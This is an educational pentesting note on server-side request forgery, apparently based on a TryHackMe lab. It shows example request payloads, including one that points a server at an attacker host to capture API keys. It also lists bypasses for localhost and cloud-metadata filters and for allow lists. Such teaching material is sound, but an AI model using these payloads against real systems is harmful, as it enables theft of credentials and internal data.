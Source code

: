 ```yaml
---
title: Server-side Request Forgery
---
```


_Server-side Request Forgery_ is a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

## Types of SSRF

There are two types of SSRF vulnerability:

- a regular SSRF - data is returned to the attacker's screen
- _blind SSRF_ - an SSRF occurs, but no information is returned to the attacker's screen

## Impact

A successful SSRF attack can result in any of the following:

- Access to unauthorised areas
- Access to customer/organisational data
- Ability to Scale to internal networks
- Reveal authentication tokens/credentials

## Examples

### URL manipulation

The client expects similar request:

```http
http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123
```

By modifying the `url` query param, we might want to access different API endpoints, e.g.:

```http
# hacker requests
http://website.thm/stock?url=http://api.website.thm/api/user

# client request the server
http://api.website.thm/api/user

# server returns the user data instead of stock information
```

### With [path-traversal](knowledge/offsec/pentesting/path-traversal.md)

The client expects similar request:

```http
http://website.thm/stock?url=/item?id=123
```

Even if we have control over the path, not the whole URL, by modifying the `url` param, we might want to access different API endpoints, e.g.:

```http
# hacker requests
http://website.thm/stock?url=/../user

# client request the server
http://api.website.thm/api/stock/../user

# server returns the user data instead of stock information
```

### Controlling the server's subdomain

The client expects similar request:

```http
http://website.thm/stock?server=api&id=123
```

```http
# hacker requests
http://website.thm/stock?server=api.website.thm/api/user&x=&id=123
                                [-------------------------]

# client request the server
http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123
     [----------------------------]                              [-]

# server returns the user data instead of stock information
```

We can control the server's subdomain to which the request is made (from `server` to `api.website.thm/api/user`).

The [payload](knowledge/offsec/glossary/payload.md) ending with `&x=` is used to stop the remaining path from being appended to the end of the URL and turns into parameter itself.

### Forcing webapp to request another server

The attacker can force the webserver to request a server of the attacker's choice. By doing so, we can capture request headers that are sent to the attacker's specified domain. These headers could contain authentication credentials or API keys sent by `website.thm` (that would normally authenticate to `api.website.thm`).

The client expects similar request:

```http
http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123
```

```http
# hacker requests
http://website.thm/stock?url=http://attacker.com/

# webapp requests data from `attacker.com` revealing the API key
```

## Finding a SSRF

SSRF vulnerabilities can be spotted in many different ways. Common examples:

- A full URL used as a parameter in the address bar
  - `https://website.thm/form?server=http://server.website.thm/store`
- A partial URL such as just the hostname
  - `https://website.thm/form?server=api`
- Path of the URL
  - `https://website.thm/form?dst=/forms/contact`
- In a hidden field in a form

Some of these examples are easier to exploit than others, and this is where a lot of trial and error will be required to find a working [payload](knowledge/offsec/glossary/payload.md).

If working with a blind SSRF the output is not reflected back to us, so we'll need an external HTTP logging tool to monitor requests:

- [RequestBin](https://requestbin.com)
- your own HTTP server
- [Burp Suite](cybersecurity/knowledge/tools/burp)'s Collaborator client.

## Bypassing SSRF defenses

Security-savvy developers aware of the SSRF may implement checks in their applications to make sure the requested resource meets specific rules. There are usually two approaches to this, as follows:

### _Deny List_

All requests are accepted apart from resources specified in a list or matching a particular pattern.

A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations.

A specific endpoint to restrict access is the `localhost`/`127.0.0.1`, which may contain server performance data or further sensitive information.

Attackers can bypass a Deny List by using alternative localhost references such as `0`, `0.0.0.0`, `0000`, `127.1`, `127.*.*.*`, `2130706433`, `017700000001` or subdomains that have a DNS record which resolves to `127.0.0.1` such as `127.0.0.1.nip.io`.

Also, in a cloud environment, it would be beneficial to block access to the IP address `169.254.169.254`, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address `169.254.169.254`.

### _Allow List_

An allow list is where all requests get denied unless they appear on a list or match a particular pattern, eg. a rule that an URL used in a parameter must begin with `https://website.thm`.

An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as `https://website.thm.attackers-domain.thm`. The application logic would now allow this input and let an attacker control the internal HTTP request.

### Open Redirect

An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address, e.g `https://website.thm/link?url=https://tryhackme.com`. This endpoint was created for statistics purposes.

But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with `https://website.thm/`. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.
